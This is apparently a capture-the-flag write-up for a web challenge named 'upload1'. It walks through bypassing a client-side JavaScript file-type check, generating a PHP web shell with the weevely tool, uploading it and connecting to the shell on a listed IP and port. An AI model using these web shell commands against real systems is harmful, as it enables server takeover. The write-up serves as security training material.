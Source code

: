 # upload1

![Screenshot from 2021-07-24 23-17-41](https://user-images.githubusercontent.com/87865134/126874658-e619afd5-8bf4-4750-b0db-ff742c98b0db.png)

- **Maybe file upload vulnerability**
- **Test upload file** ***.php***
  - > can't upload file .php 

![Screenshot from 2021-07-24 23-19-21](https://user-images.githubusercontent.com/87865134/126874712-f03d8669-c3a6-4476-b39c-e094644872d7.png)

- **View source code and detect that application use JavaScript to check type of file upload**
  - > Easy to bypass 
 
- **Create shell.php**
  - > using ***weevely*** tool: `weevely generate 123456 shell.php`

- **Upload file and use weevely to connect**
  - `weevely http://111.200.241.244:52749/upload/1627143863.shell.php  123456`

![Screenshot from 2021-07-24 23-26-32](https://user-images.githubusercontent.com/87865134/126874864-44f65981-046d-4d2b-99b4-e586a3c1a091.png)

- **Description:**
  - > category: file upload 
